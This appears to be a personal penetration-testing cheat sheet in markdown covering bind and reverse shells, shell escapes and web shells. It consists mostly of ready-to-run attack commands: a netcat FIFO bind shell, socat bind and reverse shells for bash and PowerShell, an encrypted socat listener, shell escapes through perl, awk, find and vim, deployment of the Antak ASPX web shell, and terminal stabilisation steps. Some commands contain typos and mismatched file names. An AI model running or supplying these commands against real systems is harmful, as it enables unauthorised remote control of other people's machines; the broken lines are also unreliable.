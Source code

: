 https://www.revshells.com/
# #Bind Shell
![[BindShell.png]]
Target system has a listener and awaits a connection from the attacker.
### Bind Shell with NC 
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f
```
```shell
nc -nv <ip> <port>
```
### Socat Listener 
```cmd
socat TCP4-LISTEN :<port> EXEC:powershell.exe,pipes
```
```shell
socat TCP4-LISTEN :<port> EXEC: '/bin/bash'
```
### Socat Connection
```cmd
socat TCP4-LISTEN :<port> EXEC: '/bin/bash'
```
## Socat Encryption
```shell
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shelly.key shell.crt > shell.pem
socat OPENSSL-LISTEN:<PORT>,cert=shel.pem,verify=0
```
# #Reverse Shell
Attacker 
```shell
sudo nc -lvnp 443
```
## Socat
```shell
socat TCP4-LISTEN:<port>
```
### Connection
```cmd
socat TCP4:<ip>:<port> EXEC:powershell.exe,pipes
```
```cmd
socat TCP4:<ip><port> EXEC:`bin/bash`
```
# Interactive Shells
```shell
/bin/sh -i
```
### Perl
```shell
perl —e 'exec "/bin/sh";'
```
Run from script:
```shell
perl: exec "/bin/sh";
```
### Ruby 
```shell
ruby: exec "/bin/sh"
```
### Lua
```shell
lua: os.execute('/bin/sh')
```
### AWK
```shell
awk 'BEGIN {system("/bin/sh")}'
```
### Find
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell
find . -exec /bin/sh \; -quit
```
### Vim
```shell
vim -c ':!/bin/sh'
```

```vim
vim
:set shell=/bin/sh
:shell
```

# Web Shells
#### [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
	Ready made files that can be injected 
#### Antak
###### ASPX = Active Server Page Extended (ASPX) 
Built on ASP.NET framework.
Web form pages generated for users to input dat
##### Antak web shell
Web shell built in ASP.NET that gives powershell commands


```shell
ls /usr/share/nishang/Antak-WebShell
```

```shell
 cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```
Change username and password?

#### PHP

# Shell stabilisation 
```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
```
```ruby
ruby -e "exec '/bin/bash'" 
```
```perl
perl -e "exec '/bin/bash'"
```
Background the shell with 
```
ctrl + z
```
On the attackers machine
Disables text display on the attacker machine and then resets the targets terminal
```shell
stty raw -echo && fg
reset
```
Set the machine environment to something more appealing
```shell
export TERM=xterm-256-color
```

